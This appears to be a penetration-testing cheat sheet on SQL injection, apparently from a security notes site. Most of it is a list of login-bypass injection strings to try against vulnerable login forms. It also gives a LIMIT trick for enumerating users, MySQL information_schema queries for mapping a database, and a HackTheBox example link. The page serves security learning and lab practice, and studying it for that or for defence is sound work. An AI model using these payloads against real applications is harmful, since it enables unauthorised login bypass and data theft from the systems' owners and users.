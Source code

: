 # SQL Injection

This exploit takes advantage of the interaction of a server application with a backend database.

![](https://imgs.xkcd.com/comics/exploits_of_a_mom.png)

## Login Bypasses

For login forms, if they're vulnerable to SQL Injection, the options can range from data exfiltration, to simply bypassing the login forms entirely. Note that the comment type for SQL databases can vary, so it's worth trying both `--` and `#`.  A number of the below are worth trying:

```
' or '1'='1
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

**Source**: [https://xapax.gitbooks.io/security/content/sql-injections.html](https://xapax.gitbooks.io/security/content/sql-injections.html)

If the backend code is only expecting a single result from the query, a number of the above will fail.  If this is the case then using `LIMIT 0,1` at the end of the expression will reduce the result returned to a single element.  You can then vary the first parameter to enumerate different users.

## Database Enumeration

### MYSQL

```sql
select column_name from information_schema.columns
select table_name from information_schema.tables
```

## **Examples**

[HackTheBox - Charon](https://www.youtube.com/watch?v=_csbKuOlmdE)

